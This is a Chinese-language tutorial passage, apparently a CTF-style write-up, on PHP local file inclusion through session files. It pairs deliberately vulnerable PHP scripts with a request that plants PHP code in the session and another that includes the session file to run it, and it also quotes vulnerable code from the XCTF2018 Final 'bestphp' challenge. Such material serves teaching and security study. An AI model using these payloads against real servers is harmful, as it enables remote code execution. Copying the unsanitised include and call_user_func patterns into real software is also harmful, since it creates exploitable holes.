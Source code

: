         例子 1：  
session.php  

```
<?php
 session_start();
 $_SESSION["username"]=$_GET['s'];
?>
```

include.php

```
<?php
include $_GET['i'];
?>
```

往 session.php 传入一句话，写入 `session` 文件中

```
session.php?s=<?php phpinfo(); ?>
```

  
        在 `cookie` 中 `PHPSESSID` 值为 `k82hb2gbrj7daoncpogvlbrbcp`，即 `session` 存储的文件名为 `sess_k82hb2gbrj7daoncpogvlbrbcp`, 路径可以猜测一下，这里为 `/var/lib/php/sessions/`  

`![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT0sWuXTXqbzc9VyqXCzFxfC156jA5vvpxaX8xQJsGNBkiaKHxfmjlMNU4M9wD4vhTskMFXAJriciarg/640?wx_fmt=png)`

include.php 文件包含 `session` 存储文件

```
/include.php?i=/var/lib/php/sessions/sess_k82hb2gbrj7daoncpogvlbrbcp
```

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnT0sWuXTXqbzc9VyqXCzFxfTbicLlQmaR2tNEIMkF57e1fRLjgtfbH5D2Ww2ZT0Mo4qPDkCSibByJUw/640?wx_fmt=png)

  
    例子 2：  
XCTF2018-Final_bestphp  
这里就取其中的小部分代码  
bestphp.php

```
<?php
highlight_file(__FILE__);
error_reporting(0);
ini_set('open_basedir', '/var/www/html:/tmp');


$func=isset($_GET['function'])?$_GET['function']:'filters';
call_user_func($func,$_GET);

if(isset($_GET['file'])){
 	include $_GET['file'];
}

session_start();
$_SESSION['name']=$_POST['name'];
?>
```
